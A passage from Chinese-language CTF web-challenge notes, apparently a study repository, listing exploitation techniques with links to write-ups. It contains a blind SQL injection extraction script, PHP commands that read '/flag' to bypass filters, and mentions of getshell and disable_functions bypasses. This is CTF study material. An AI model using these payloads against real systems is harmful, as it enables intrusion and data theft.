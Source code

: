 ```python
    for i in range(1, 10000):
        low = 31
        high = 127
        while low <= high:
              mid = (low + high) // 2
              res = payload(i, mid)
              if res:
                 low = mid + 1
              else:
                 high = mid - 1
        f = int((low + high + 1)) // 2
        if (f == 127 or f == 31):
           break
        flag += chr(f)
        print(flag)
exp()
```  
- sql正则regexp+二次注入+updatexml报错注入。例题:[[RCTF2015]EasySQL](../../CTF/BUUCTF/Web/[RCTF2015]EasySQL.md)
29. php使用读取文件的不同方式，可用于绕过滤。

```php
system("cat /flag");
file_get_contents("/flag");
readfile("/flag");
highlight_file("/flag");
show_source("flag.php")
```

30. MD5hash长度扩展攻击+chrome利用代码添加cookie。例题：[[De1CTF 2019]SSRF Me](https://github.com/C0nstellati0n/NoobCTF/blob/main/CTF/BUUCTF/Web/%5BDe1CTF%202019%5DSSRF%20Me.md)
31. ssi注入漏洞。例题:[[BJDCTF2020]EasySearch](https://github.com/C0nstellati0n/NoobCTF/blob/main/CTF/BUUCTF/Web/%5BBJDCTF2020%5DEasySearch.md)
32. idna编码+utf-8解码造成的过滤绕过。例题:[[SUCTF 2019]Pythonginx](https://github.com/C0nstellati0n/NoobCTF/blob/main/CTF/BUUCTF/Web/%5BSUCTF%202019%5DPythonginx.md)
33. php格式化字符串逃逸+数组绕过strlen检查。例题1:[[0CTF 2016]piapiapia](https://github.com/C0nstellati0n/NoobCTF/blob/main/CTF/BUUCTF/Web/%5B0CTF%202016%5Dpiapiapia.md)；例题2:[baby_unserialize](https://github.com/C0nstellati0n/NoobCTF/blob/main/CTF/moectf/Web/baby_unserialize.md)
34. php普通无字母数字getshell+绕过disable functions
35. chrome console发送post请求

[来源](https://cloud.tencent.com/developer/article/1805343)

```js
var url = "http://28401609-7e35-445a-84b7-509187f6de3f.node4.buuoj.cn:81/secrettw.php";

var params = "Merak=a";

var xhr = new XMLHttpRequest();

xhr.open("POST", url, true);

xhr.setRequestHeader("Content-type","application/x-www-form-urlencoded"); 

xhr.onload = function (e) {

  if (xhr.readyState === 4) {

    if (xhr.status === 200) {

      console.log(xhr.responseText);

    } else {

      console.error(xhr.statusText);

```